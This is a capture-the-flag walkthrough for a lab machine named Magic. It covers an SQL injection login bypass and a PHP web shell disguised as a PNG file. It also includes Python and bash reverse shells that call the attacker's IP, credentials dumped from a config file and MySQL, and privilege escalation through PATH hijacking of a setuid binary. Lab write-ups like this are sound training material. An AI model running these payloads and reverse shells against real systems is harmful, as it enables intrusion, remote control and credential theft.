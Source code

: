 # 🪄 HTB Walkthrough – making a magical walkthrough with Magic



<figure><img src="../.gitbook/assets/ChatGPT Image Jun 20, 2025, 10_19_39 AM.png" alt=""><figcaption></figcaption></figure>

### 🧠 TL;DR

* SQLi login bypass
* Upload bypass via magic bytes
* Reverse shell via Python
* Credentials leakage → Privilege escalation
* `.htaccess` blocks direct access to malicious files
* Custom binary `sysinfo` used for final foothold

***

### 🧩 Step 1 – Login Bypass

Classic SQL injection:

```sql
' OR 1=1; -- 
```

Logged in as admin, because who needs credentials when you've got logic flaws?

### 🎭 Step 2 – File Upload Bypass via Magic Bytes

Bypass the upload filter expecting valid PNG/JPG magic bytes:

```
head -c 150 image.png > shell.php.png
```

Append web shell payload:

```
<?php
if (isset($_REQUEST["cmd"])) {
    echo "<pre>";
    $cmd = ($_REQUEST["cmd"]);
    system($cmd);
    echo "</pre>";
    die;
}
?>

```

Uploaded as `shell.php.png`, slipped past MIME and magic number check.

***

### 📞 Step 3 – Reverse Shell

Tried bash reverse shells → ❌\
Checked for Python → ✅

Crafted Python3 reverse shell:

```
http://10.10.10.185/images/uploads/image.php.png?cmd=export%20RHOST=%2210.10.14.3%22;export%20RPORT=443;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22/bin/bash%22)%27
```

```
export RHOST="10.10.14.3";export RPORT=80;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

### 🔐 Step 4 – Credential Discovery

Found in `db.php5`:

```
private static $dbName = 'Magic';
private static $dbHost = 'localhost';
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
```

<figure><img src="../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

### 🔎 Step 5 – Enumerating MySQL Binaries

`mysql` client missing? No problem.

```
for dir in ${PATH//:/ }; do
  ls "$dir"/mysql* 2>/dev/null
done
```

<figure><img src="../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

Used `mysqldump` to extract all DBs:

```
mysqldump -u theseus -p --all-databases > all_db_backup.sql

```

```
cat all_db_backup.sql | base64 > all_db_backup.sql.base64

```

```
cat all_db_backup.sql.base64 | base64 -d > all_db_backup.sql.base64

```

found password

```
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```

### 🧗‍♂️ Step 6 – Privilege Escalation

Switched user:

```
su theseus
```

Checked for custom binaries: (i did look through the walkthrough, i did get it in ,Linpease but i skipped it while reading through it)

```
/bin/sysinfo

```

* a did a strings and got it know it was using a couple of binaries with a full path not set

```
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.3/80 0>&1' > fdisk
chmod +x fdisk
export PATH="/home/theseus:$PATH"
/bin/sysinfo

```

* Spun an nc listen on my machine on port 80 and got root



### 🛑 Post-Root Notes

#### ❌ Couldn't download SQL backup via browser?

Blocked by `.htaccess`:

<figure><img src="../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>

📂 Upload Filter Breakdown (PHP Logic)

```
$allowed = array('2', '3');
<SNIP>

if ($uploadOk === 1) {
        // Check if image is actually png or jpg using magic bytes
        $check = exif_imagetype($_FILES["image"]["tmp_name"]);
        if (!in_array($check, $allowed)) {
            echo "<script>alert('What are you trying to do there?')</script>";
            $uploadOk = 0;
        }
    }


<SNIP>
```

**🔎 `$allowed = array('2', '3');` — What does it mean?**

This line is checking **magic numbers** (also called **image type constants**) returned by PHP’s `exif_imagetype()` function.

**🧬 `exif_imagetype()` returns an integer, not a string.**

Here’s what those numbers mean:

| Return Value | Image Type      |
| ------------ | --------------- |
| `1`          | GIF             |
| `2`          | JPEG            |
| `3`          | PNG             |
| `4`          | SWF             |
| `5`          | PSD             |
| `6`          | BMP             |
| `7`          | TIFF (Intel)    |
| `8`          | TIFF (Motorola) |
| `9`          | JPC             |
| `...`        | etc.            |

### 🧠 Final Thoughts

This box covers:

* Basic SQLi
* Image upload filtering bypass
* Manual reverse shell crafting
* Hunting binaries for data extraction
* Blocking mechanisms using `.htaccess`

Great blend of web exploitation and privilege escalation.
